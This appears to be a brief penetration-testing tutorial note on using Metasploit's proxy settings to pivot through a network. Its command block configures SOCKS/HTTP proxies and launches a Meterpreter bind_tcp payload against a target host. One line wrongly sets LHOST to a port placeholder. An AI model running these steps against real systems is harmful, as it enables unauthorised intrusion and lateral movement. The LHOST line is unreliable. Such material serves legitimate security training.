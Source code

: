 # Metasploit

Metasploit has a feature to use SOCKS Proxies to laterally hop the network. These are the type of proxies are available:

1. SOCKS4
2. SOCKS4A
3. SOCKS5
4. HTTP
5. HTTPS

```
msf > setg Proxies socks4a:<remote_IP>:<port>,http:<remote_IP>:<port>

msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp

msf exploit(multi/handler) > set lhost <PORT>

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > exploit
```